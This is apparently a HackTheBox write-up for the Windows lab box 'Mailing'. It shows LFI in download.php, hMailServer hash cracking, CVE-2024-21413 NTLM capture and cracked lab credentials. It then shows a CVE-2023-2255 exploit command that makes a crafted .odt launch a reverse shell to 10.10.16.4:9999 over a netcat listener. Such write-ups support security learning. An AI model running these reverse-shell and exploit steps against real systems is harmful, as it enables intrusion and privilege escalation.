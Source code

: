 ```yaml
---
title: Mailing
published: 2024-09-01
description: "An in-detail writeup on the windows box: Mailing. From boot to root!"
image: "./Mailing.png"
tags: ["htb", "box", "easy", "windows", "reverse-shells", "privilege-escalation", "LFI", "CVE-2024-21413"]
category: HackTheBox
draft: false
--- 
```


# Mailing 

* I scanned all ports, sub directories and `php` files. Also, copies of the scans are attached here. 

## Initial Access 

* I discovered some `php` files from my `ffuf` scans and one interesting one was this:

```bash
download                [Status: 200, Size: 31, Words: 5, Lines: 1, Duration: 326ms]
```

* Requesting `download.php` made me more curious:

```bash
❯ curl 'mailing.htb/download.php'
No file specified for download. 
```

* From that results I figured out that there's a param probably `file` 

* And, I was correct the param was `file` and it returned an error page:

```bash
curl 'mailing.htb/download.php?file='
---snip--- 
</style>
</head>
<body>
<div id="header"><h1>Server Error</h1></div>
<div id="content">
 <div class="content-container"><fieldset>
  <h2>500 - Internal server error.</h2>
  <h3>There is a problem with the resource you are looking for, and it cannot be displayed.</h3>
 </fieldset></div>
</div>
</body>
</html>
```

* Of course, it was clearly LFI which I confirmed later on

* After, doing some research about `hmailserver`, I discovered some locations it's files are stored:

![](https://i.postimg.cc/PrNvYLpS/Screenshot-from-2024-05-04-21-30-33.png) 

* Passing  `AdministratorPassword` to crackstation, I got the password in clear text:

![](https://i.postimg.cc/TwLgGpV7/Screenshot-from-2024-05-04-21-33-17.png)

* After doing some recon about this I discovered a CVE on Microsoft Outlook that reveals ntlm hash: `CVE-2024-21413` 

![](https://i.postimg.cc/PJ2zSBTY/Screenshot-from-2024-05-04-21-41-03.png)

* I cracked that and got user `maya`, password `m4y4ngs4ri` 

## Privilege Escalation

* I discovered that libreoffice was outdated and found a `cve` to exploit it. Also, `C:\Important Documents` this directory was writeable. 

* [CVE](https://github.com/elweth-sec/CVE-2023-2255)

* I compile rcat for windows and put `rcat.exe` in `C:\ProgramData `

```bash
python3 CVE-2023-2255.py --cmd 'C:\ProgramData\rcat.exe connect 10.10.16.4 9999' --output 'hack.odt'
``` 

* I started a listene with netcat on attacker: `nc -lvnp 9999`. Put `hack.odt` in `C:\Important Documents` and after like 30 seconds I got a shell as `localadmin`.

## Pwned 
+

